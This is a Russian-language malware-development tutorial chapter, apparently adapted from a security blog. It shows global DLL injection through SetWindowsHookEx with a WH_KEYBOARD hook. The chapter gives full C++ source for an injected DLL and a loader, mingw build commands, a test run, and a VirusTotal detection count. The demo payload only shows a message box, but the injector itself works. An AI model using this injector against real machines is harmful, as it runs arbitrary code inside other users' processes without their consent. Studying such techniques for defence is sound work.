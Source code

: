 \newpage
\subsection{17. классическая DLL-инъекция через SetWindowsHookEx. Простейший вредонос на C++.}

\textarabic{﷽}

![dll injection](./images/25/2021-11-24_18-00.png){width="80%"}    

В этом уроке я рассмотрю DLL-инъекцию с использованием метода `SetWindowsHookEx`.

### SetWindowsHookEx

Давайте рассмотрим пример, демонстрирующий этот метод. Функция `SetWindowsHookEx` устанавливает перехватчик в цепочку хуков, который затем вызывается при возникновении определенных событий. Давайте посмотрим на синтаксис функции:

```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Наиболее важным параметром здесь является `idHook`. Это тип устанавливаемого хука, который может принимать одно из следующих значений:

- `WH_CALLWNDPROC`
- `WH_CALLWNDPROCRET`
- `WH_CBT`
- `WH_DEBUG`
- `WH_FOREGROUNDIDLE`
- `WH_GETMESSAGE`
- `WH_JOURNALPLAYBACK`
- `WH_JOURNALRECORD`
- `WH_KEYBOARD`
- `WH_KEYBOARD_LL`
- `WH_MOUSE`
- `WH_MOUSE_LL`
- `WH_MSGFILTER`
- `WH_SHELL`
- `WH_SYSMSGFILTER`

В нашем случае я буду перехватывать события типа `WH_KEYBOARD`, что позволит нам отслеживать нажатия клавиш.

### Вредоносная DLL

Давайте подготовим нашу вредоносную DLL. Для простоты создадим DLL, которая просто покажет всплывающее окно с сообщением:

```cpp
/*
evil.cpp
Простая DLL для инъекции в процесс
Автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}
```

Как видите, у нас довольно простая DLL. Функция `DllMain()` вызывается при загрузке DLL в адресное пространство процесса. Также есть экспортируемая функция `Meow()`, которая просто показывает всплывающее сообщение *"Meow from evil.dll!"*.

### пример. простой вредоносный код.

Далее нам нужно создать наш вредоносный код. Давайте посмотрим исходный код:
```cpp
/*
hack.cpp
DLL-инъекция через SetWindowsHookEx
автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // загружаем вредоносную DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // получаем адрес экспортированной функции из вредоносной DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // устанавливаем хук - используя действие WH_KEYBOARD
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

Это также довольно просто. Прежде всего, мы вызываем `LoadLibrary`, чтобы загрузить нашу вредоносную DLL:    

![dll injection 2](./images/25/2021-11-25_15-35.png){width="80%"}    

Затем мы вызываем `GetProcAddress`, чтобы получить адрес экспортированной функции `Meow`:    

![dll injection 3](./images/25/2021-11-25_15-36.png){width="80%"}    

После этого наш вредоносный код вызывает самую важную функцию - `SetWindowsHookEx`. Параметры, передаваемые в эту функцию, определяют, что именно она будет делать:   

![dll injection 4](./images/25/2021-11-25_15-40.png){width="80%"}    

Как видно, при каждом событии клавиатуры будет вызываться наша функция. Мы передаем адрес нашей экспортированной функции - параметр `meowFunc`. Также мы передаем дескриптор нашей DLL - параметр `meowDll`. Последний параметр `0` указывает, что мы хотим установить глобальный хук для всех программ, а не только для одной конкретной.    

Затем мы вызываем `Sleep`:

![dll injection 5](./images/25/2021-11-25_15-44.png){width="80%"}    

чтобы продемонстрировать, что наш хук работает.

Затем вызываем функцию `UnhookWindowsHookEx()`, чтобы убрать ранее установленный хук `WH_KEYBOARD`:  

![dll injection 6](./images/25/2021-11-25_15-46.png){width="80%"}    

Теперь, когда мы разобрались с кодом вредоносной программы, мы можем протестировать его.    
Сначала скомпилируем вредоносную DLL:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](./images/25/2021-11-25_15-48.png){width="80%"}    

Компилируем код вредоносной программы:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![dll injection 8](./images/25/2021-11-25_15-50.png){width="80%"}    

Затем проверяем всё в действии! Запускаем наш `hack.exe` на целевой машине (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](./images/25/2021-11-25_15-54.png){width="80%"}    

Мы видим, что всё выполнено успешно, и на этом этапе при запуске программы наше всплывающее сообщение появляется только при нажатии клавиши на клавиатуре.

### Заключение

В этом разделе я продемонстрировал, как мы можем использовать функцию `SetWindowsHookEx` для внедрения DLL в адресное пространство процесса и выполнения произвольного кода внутри него.    

Однако есть одно предостережение. Этот метод не работает на моей машине с Windows 10 x64. Я думаю, причина в следующем: CIG блокирует этот метод. Windows 10 x64 имеет два важных механизма:

- **CFG (Control Flow Guard)** – предотвращает косвенные вызовы на неразрешённые адреса.
- **CIG (Code Integrity Guard)** – разрешает загрузку в память процесса только модулей, подписанных Microsoft/Microsoft Store/WHQL.    

В [этой](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) презентации с BlackHat USA 2019 авторы объясняют, что CIG блокирует этот метод.    

Давайте загрузим наш `hack.exe` на virustotal:

![dll injection 10](./images/25/2021-11-26_03-02.png){width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**Итак, 5 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[исходный код на Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
